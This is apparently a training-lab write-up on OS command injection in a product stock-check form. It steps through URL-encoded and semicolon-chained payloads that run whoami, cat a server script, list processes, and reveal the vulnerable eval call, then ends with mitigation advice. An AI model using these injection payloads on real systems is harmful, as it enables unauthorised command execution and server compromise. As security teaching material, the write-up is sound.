







# Lab: OS Command Execution

## 🔹 Overview

This lab demonstrates an **OS Command Injection vulnerability**, where user input is incorporated into a system command and executed by the server.

Spec:



---

## 🔹 Vulnerability

The application allows users to check product stock, sending a request such as:

```http
POST /product/stock
```

This suggests that user input is passed to a server-side script.

## 🔹 Exploitation

### Step 1 - Identify injection point

The stock check functionality sends data to a backend script.



This indicates that parameters such as productId and storeId may be included in a system command.

---

### Step 2 - Initial testing

Various payloads were tested to determine whether input was being executed as a command:

```http
productId=2&storeId=1
```

Modified attempts using Burp Suite Repeater included:

```http
productId=2&echo whoami&storeId=1
productId=2 & echo whoami & storeId=1
productId=echo whoami&storeId=echo whoami
```

These tests aimed to determine whether command separators could be used.
Note: Without `productId=<something>&storeId=<something>` response returned 'missing parameter'

---

### Step 3 - Identify command execution

After attempting a similar payload with a URL encoded `&`:

```http
productId=1%26whoami&storeId=1
```

An error message revealed details about the underlying system:

```
Try 'whoami --help' for more information.
/home/peter-iXsnkq/stockreport.sh: line 5: $2: unbound variable
```



This indicates that user input is being passed into a shell script.

---

### Step 4 - Experimenting shell commands

After some trial an error, the payload:

```http
productId=1;echo whoami&storeId=1
```

Produced output that reflected my input



This produced reflected input rather than command execution, indicating that the payload needed refinement.

### Step 5 - Successful command injection

Using command chaining and removing `echo` from previous step:

```http
productId=1;whoami&storeId=1
```

This initially caused a parameter error, which was resolved by using a comment to terminate the original command:

```http
productId=1;whoami #&storeId=1
```



I also had success with:

```http
$(echo whoami)
productId=<value>|<working_payload>
storeId=<working_payload>
```

This works because:

- `;` separates commands
- `#` comments out the rest of the line

### Step 6 - Backtrack to root cause

Combining working payload + working injection point + `cat` I made a new payload to find the source code:

```http
productId=1;cat /home/peter-iXsnkq/stockreport.sh #&storeId=1
```

Returned:

```shell

#!/bin/bash

set -eu

eval cksum <<< "$1 $2" | cut -c 2-3 | rev | sed s/0/1/
```



This revealed the critical vulnerability

```shell
eval
```

### Step 7 - Curiosity

I wanted to see how many commands I could try and chained a few common OS commands to get all the output with one payload:

```shell
$(echo whoami);$(echo uname -a);$(echo ps -ef)
```



This demonstrates that multiple commands can be chained together once command injection is achieved.

---

## 🔹 Impact

This vulnerability allows:

- Execution of arbitrary system commands
- Full compromise of the underlying server
- Access to sensitive system files

Command injection enables attackers to execute code directly on the host system.

---

## 🔹 Root Cause

- User-controlled input is passed into a system command
- The script uses `eval`, which executes input as code
- No validation of input is performed

The use of `eval` causes user input to be interpreted as executable commands rather than data. This allows attackers to inject additional commands into the execution flow and control the behaviour of the system.

---

## 🔹 Mitigation

User input must never be executed as part of system commands.

### Avoid dangerous functions

Do not use functions such as:

```shell
eval
```

### Use safe APIs

Avoid shell execution entirely where possible.

### Validate input strictly

As both fields are expected to be numeric inputs:

```python
if not re.fullmatch(r'[0-9]+', productId):
    reject_request()
```

### Do not concatenate commands

User input should never be directly inserted into system commands.

---

## 🔹 Key Learning

Command injection occurs when user input is treated as executable code. Functions like eval amplify this risk by executing input directly, making strict input validation and safe command handling essential.

It is worth noting that some defensive measures were implemented:

```shell
set -eu
```

This ensures that execution stops on errors and undefined variables, reducing unintended behaviour. However, it does not prevent command injection when user input is executed directly.
